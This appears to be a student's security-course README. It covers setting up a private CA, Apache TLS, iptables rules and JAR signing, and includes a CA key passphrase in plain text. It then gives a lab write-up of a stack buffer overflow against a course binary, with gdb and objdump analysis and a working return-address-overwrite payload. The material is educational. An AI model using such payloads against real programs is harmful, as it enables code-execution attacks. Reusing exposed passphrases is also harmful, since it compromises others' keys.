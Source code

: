 # Assignment 2 Sliding Part
1. To become a CA, we need a private key and a signed root certificate.
    1. First, we run `openssl genrsa -des3 -out 333rootCA.key 4096` to generate our private key. -des3 encrypts the key using DES cipher, 4096 is the bit length of the key. We use a random generated passphrase: `q2X6wXVjf3Od`.
    2. Then, we create a root certificate (333rootCA.crt) and sign using our private key (333rootCA.key) by running `openssl req -x509 -new -nodes -key 333rootCA.key -sha256 -days 1024 -out 333rootCA.crt`. Our organization name is "Group06_W19".

2. We create a certificate key to generate a certificate signing request (CSR).
    1. First, we run `openssl genrsa -out 10.229.6.4.key 2048` to create certificate key.
    2. Then, we edit openssl.cnf (/etc/ssl/openssl.cnf) to set `policy = policy_anything`.
    3. Then, we run `openssl req -new -key 10.229.6.4.key -out 10.229.6.4.csr` to generate CSR. Our organization name is `Group06_W19_Web_Services`.
3. We sign the CSR (10.229.6.4.csr) with our CA private key (333rootCA.key) by running `openssl x509 -req -in 10.229.6.4.csr -CA 333rootCA.crt -CAkey 333rootCA.key -CAcreateserial -out 10.229.6.4.crt -days 500 -sha256` and the passphrase set in Step 1(i).
4. We configure Apache2 to use the signed certificate by editing /etc/apache2/sites-enabled/000-default.conf:

        <VirtualHost *:443>
                DocumentRoot /var/www/html
                SSLEngine on
                SSLCertificateFile /home/keanweng/10.229.6.4.crt
                SSLCertificateKeyFile /home/keanweng/10.229.6.4.key
                SSLCertificateChainFile /home/keanweng/333rootCA.crt
        </VirtualHost>

5. To load the certificate on the Windows machine, we have to trust the CA we just made.
    1. First, we scp 333rootCA.crt to the Windows Server and log in into Admin account.
    2. Then, we open 333rootCA.crt and click "Install Certificate".
    3. Select "Local Machine" for "Store Location". Click "Next".
    4. Select "Place all certificates in the following store" and click on "Browse".
    5. Select "Trusted Root Certificate Authorities" to trust the CA we made. Click "Next" then "Finish" to install certificate.
    6. To verify that certificate is installed, goto Windows Search and search for "Manage computer certificates"
    7. Browse to "Trusted Root Certificate Authorities" > "Certificates", and we should see a "G6" certificate.
    8. We are able to access https://10.229.6.4 now.
        Screenshot (in ./assignment_2_sliding):

                Before trusting our CA: does_not_recognize.png
                After trusting our CA: recognized_1.png, recognized_2.png
        
6. These are the iptables rule that we added:

        sudo iptables -R INPUT 3 -s 10.229.0.0/16 -p tcp -m multiport --dports 21,80,443 -j ACCEPT
        sudo iptables -R OUTPUT 3 -d 10.229.0.0/16 -p tcp -m multiport --dports 21,80,443 -j ACCEPT
        (-R to replace our old INPUT/OUTPUT rule at line 3, added port 443 for HTTPS)

7. To sign Java jar files with our CA, the process is similar to signing a certificate. We create a keystore and then create a CSR. Then, we get our CA to sign the CSR. Then, we install the signed certificates into the keystore. Then, we sign the JAR file using the keystore. Purpose of each step is at the last sentence.
    1. First we install keytool and jarsigner from JDK. We need keytool to manage keystore and jarsigner to sign JAR files.
    2. To create Java Keystore File, we run `keytool -genkey -alias 333jar -keyalg RSA -keysize 2048 -keystore keystore.jks`. Enter relevant info and set a password. This will give us keystore file (keystore.jks). We need a Java Keystore File to generate CSR. 
    3. We generate CSR from keystore by `keytool -certreq -alias 333jar -file 333jar.csr -keystore keystore.jks`. Enter keystore password set in Step 2. This will give us a CSR (333jar.csr). We need a CSR for our CA to sign.
    4. We sign CSR (333jar.csr) with our CA by running `openssl x509 -req -in 333jar.csr -CA 333rootCA.crt -CAkey 333rootCA.key -CAcreateserial -out 333jar.crt -days 500 -sha256`. CA signs CSR to generate the signed certificate.
    5. We install the signed certificates (333rootCA.crt, 333jar.crt) into keystore (333jar.jks) by running:

            keytool -import -trustcacerts -alias root -file 333rootCA.crt -keystore keystore.jks
            keytool -import -trustcacerts -alias 333jar -file 333jar.crt -keystore keystore.jks
        Enter keystore password set in Step 2. Now, keystore is CA verified.
    6. Now we are ready to sign jar files using keystore.jks.
    7. We run `jarsigner -tsa http://sha256timestamp.ws.symantec.com/sha256/timestamp -keystore keystore.jks [jar-filename] 333jar`. Enter keystore password set in Step 2.  Time Stamp Authority (TSA) so that we don't have to resign JAR file once the certificates expires.
    8. jar file is signed! We verify by running `jarsigner -verify -verbose -certs [jar-filename]`

# Assignment 3
## Part 1
1. The program reads from stdin and randomly capitalize the input string by subtracting 0x20 for each character. By running `echo "aaaaaaaa" | ./weak | od -A n -t x1`, we can see that some random 'a's (0x61) is output as 'A's (0x41). The program only outputs a maximum of 12 characters. If input is longer than 19 characters, the program gets a segmentation fault.
2. Since we know the buffer is set before calling scanf, we interrupt scanf in gdb to get memory address `0x805155d`. By looking at the objdump, we know entry point is `0x8051540`. Then we search for all instructions that jumps to this address and we can see some memory allocation before jumping. We input a long string to make the program segfault, and look at the location of the buffer overflow, which is near `0xffffd550`. Looking at the stack with and without buffer flowing, we can see that the buffer size is 12 bytes and we have to account for the saved registers, therefore, overflowing starts 20 bytes after start of buffer.
3. First, we look at the .rodata section of the program by running `objdump -s -j .rodata`. We can see that all of the "Owned by group XX" strings are stored in the front of .rodata.

        Contents of section .rodata:
        809f8a0 03000000 01000200 4f776e65 64206279  ........Owned by
        809f8b0 2067726f 75702030 310a004f 776e6564   group 01..Owned
        809f8c0 20627920 67726f75 70203032 0a004f77   by group 02..Ow
        809f8d0 6e656420 62792067 726f7570 2030330a  ned by group 03.
        809f8e0 004f776e 65642062 79206772 6f757020  .Owned by group 
        809f8f0 30340a00 4f776e65 64206279 2067726f  04..Owned by gro
        809f900 75702030 350a004f 776e6564 20627920  up 05..Owned by 
        809f910 67726f75 70203036 0a004f77 6e656420  group 06..Owned 
        809f920 62792067 726f7570 2030370a 004f776e  by group 07..Own
        809f930 65642062 79206772 6f757020 30380a00  ed by group 08..
        809f940 4f776e65 64206279 2067726f 75702030  Owned by group 0
        809f950 390a004f 776e6564 20627920 67726f75  9..Owned by grou
        809f960 70203130 0a004f77 6e656420 62792067  p 10..Owned by g
        809f970 726f7570 2031310a 004f776e 65642062  roup 11..Owned b
        809f980 79206772 6f757020 31320a00 4f776e65  y group 12..Owne
        809f990 64206279 2067726f 75702031 330a0025  d by group 13..%

    Then, we look at starting address of "Owned by group 06" which is `0x809f907`. In objdump, we search for the instruction that push this string into stack, which is `80482a5:	68 07 f9 09 08       	push   $0x809f907`. Now we know the starting address of our function is `0x0804829c`. Then, we buffer overflow the program to make it jump to `0x0804829c`. To make program terminate normally after calling that function, we have to buffer overflow is with a correct return address. Since exit is a syscall, we use gdb to catch the syscall and get the memory address to jump to. In gdb, we run `catch syscall 1 252` to call 'exit' and 'exit\_group' syscall. Then, we just run the program without segfault so that it exits normally. From gdb, we get `Catchpoint 2 (call to syscall exit_group), 0x08051447 in ?? ()`. `0x08051447` is the address we want to jump to exit normally. 

4.  Our exploit source code:

        #!/bin/bash
        python -c 'print " "*20 + "\x9c\x82\x04\x08" + "\x47\x14\x05\x08"' | ./weak

5.  Our exploit is just piping `20 spaces + address of our function + address of exit syscall` into the program. We find the padding space by overflowing the buffer with a long string, then running `info registers` to look at the registers. $esp is pointing at `0xffffd550` on the stack and loads the content into $eip as the address of next instruction. This position on the stack is 20 bytes after the buffer which is why we overflow it with the address of our function. After running our desired function, the program seg faults because of invalid return address. We run `info registers` in gdb and see that $esp is pointing at `0xffffd554` on the stack and loads the content into $eip as return address. This address is right after our initial 24 bytes overflow, therefore we overflow it with the memory address of our exit to make the program terminate normally.

## Part 2
